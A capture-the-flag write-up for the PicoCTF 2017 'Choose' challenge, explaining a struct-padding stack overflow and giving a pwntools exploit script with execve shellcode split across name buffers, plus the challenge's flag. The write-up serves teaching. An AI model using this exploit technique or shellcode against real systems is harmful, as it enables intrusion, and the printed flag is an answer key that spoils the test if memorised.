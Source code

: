 # PicoCTF_2017: Choose

**Category:** Master
**Points:** 175
**Description:**

Unhappy that you can't choose which enemies to fight? [Choose](https://webshell2017.picoctf.com/static/b1b96f912d40344f5f1f0bb5d3a8f7b4/choose) your own adventure! [Source](https://webshell2017.picoctf.com/static/b1b96f912d40344f5f1f0bb5d3a8f7b4/choose.c). Connect on shell2017.picoctf.com:43651. ASLR is not enabled.

**Hint:**

An assumption made in the code is wrong. Which assumption, and what does it allow you to do?

## Write-up
The vulnerability was a wrong assumption that a group of structs were the same size in memory. Specifically, the programmer assumed that these structs were the same size (`0x14 bytes`):

```
#define ENEMNAMELEN 12

typedef struct _orc{
    char type;
    short damage;
    int health;
    char name[ENEMNAMELEN];
} orc;

typedef struct _unicorn{
    char type;
    int health;
    short damage;
    char name[ENEMNAMELEN];
} unicorn;

```

Although both structs contain the same fields with the same types, they are specified in a different order. Therefore, due to struct packing the  `unicorn`  struct actually occupies  `0x18 bytes`. The memory structures are as follows:

```
orc (0x14 bytes):

[ type ][ xxxx ][ damage       ]
[ health                       ]
[ name                         ]
[ name                         ]
[ name                         ]

unicorn (0x18 bytes):

[ type ][ xxxxxxxxxxxxxxxxxxxx ]
[ health                       ]
[ damage       ][ xxxxxxxxxxxx ]
[ name                         ]
[ name                         ]
[ name                         ]

```

Notice how the  `unicorn`  struct is unable to pack the  `char`  and  `short`  fields into one 4-byte space because the  `int health`  must be aligned.

Then later, the following array was created to store user-controlled enemy struct data:

```
#define NUMMONSTERS 11
#define ENEMSIZE sizeof(orc)

char enemies[ENEMSIZE * NUMMONSTERS];

```

This error allowed an attacker to craft an input that caused a buffer overflow onto a saved return address. For example, if the attacker specified all unicorns, the storage functions would overflow the  `enemies`array.

The return address could be overwritten with the address of shellcode placed on the stack.

ASLR was disabled so it was possible to hard-code the stack address that held our shellcode. However, in order to find it, you could simply use existing functionality in the program. See the following lines:

```
void printEnemy(char * enemy){
    ...
    if(ctfer.wizardSight){
        printf("Your sight shows the enemy at %p\n", enemy);
    }
}

```

So if we had  `wizardSight`, the program would print out stack addresses. How do we get that?

```
void processWinnings(char type){
    switch(type){
        ...
        case 'T':
        case 't':
            printf("You found %s\n", winnings[5]);
            ctfer.wizardSight = 1;
            break;
        ...
    }
}

```

Ok, so in order to get a stack address, we simply have to fight a troll and beat it. Then we can calculate the offset to the first name buffer where we will store our shellcode.

However, we quickly run into a problem: the name buffer only stores  `12 bytes`  and there is no way we can fit exexcve shellcode into that small a buffer. However, we have  `11`  name buffers to use.

My solution was to use something I call "leapfrog shellcode" for lack of a better name. Basically, I split the shellcode into  `<10 byte`  sections (making sure to keep instructions intact). Then I appended short jump instructions that would jump to the next name buffer where execution could continue.

In memory that looked like this:

```
enemy 1:  [junk]
          [junk]
          [junk]
          [shellcode]      <-- start address
          [shellcode]
          [shellcode jmp] -.
enemy 2:  [junk]           |
          [junk]           | skip the struct junk
          [junk]           |
          [shellcode] <----'
          [shellcode]
          [shellcode jmp]

etc...

```

# Script

```
# By Harrison Green <hgarrereyn>

from pwn import *

# Found on shell-storm.org:
# http://shell-storm.org/shellcode/files/shellcode-811.php

# Shellcode (/bin/sh on 32 bit)
# 08048060 <_start>:
 # 8048060: 31 c0                 xor    %eax,%eax
 # 8048062: 50                    push   %eax
 # 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 # 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 # 804806d: 89 e3                 mov    %esp,%ebx
 # 804806f: 89 c1                 mov    %eax,%ecx
 # 8048071: 89 c2                 mov    %eax,%edx
 # 8048073: b0 0b                 mov    $0xb,%al
 # 8048075: cd 80                 int    $0x80
 # 8048077: 31 c0                 xor    %eax,%eax
 # 8048079: 40                    inc    %eax
 # 804807a: cd 80                 int    $0x80

# Relative jump:
#  EB CB - where CB is a signed integer to be added to eip


# Modified leapfrog shellocode with added short jumps:

### Name 1
# 31 c0
# 50
# 68 2f 2f 73 68
name1 = '\x31\xc0\x50\x68\x2f\x2f\x73\x68' + '\xeb\x0e'

### Name 2
# 68 2f 62 69 6e
# 89 e3
# 89 c1
name2 = '\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1' + '\xeb\x0d'

### Name 3
# 89 c2
# b0 0b
# cd 80
# 31 c0
name3 = '\x89\xc2\xb0\x0b\xcd\x80\x31\xc0' + '\xeb\x0e'

### Name 4
# 40
# cd 80
name4 = '\x40\xcd\x80'


# Heap layout:
# <name 1 : 12 bytes>
# <junk : 12 bytes>
# <name 2 : 12 bytes> ...


sock = remote('shell2017.picoctf.com', 47601)

# Select 11 unicorns
sock.send(('u\n' * 11))

# Add shellcode
sock.send(name1 + '\n')
sock.send(name2 + '\n')
sock.send(name3 + '\n')
sock.send(name4 + '\n')

# Fill the rest of the names
for i in range(6):
    sock.send('name\n')

# jump to shellcode by overwriting the return address with 0xffffdb9a
sock.send('aa' + '\x9a\xdb\xff\xff' + '\n')

# flee unicorns
sock.send(('f\n' * 11))

# flee dragon
sock.send(('f\n' * 6))

# Game exits but actually jumps to shellcode

# We've got shell
sock.interactive()
```

So, the flag is `c3b7d7d3659f98d19c8a510718e45575`
<!--stackedit_data:
eyJoaXN0b3J5IjpbNDU2NDkxNzU4XX0=
-->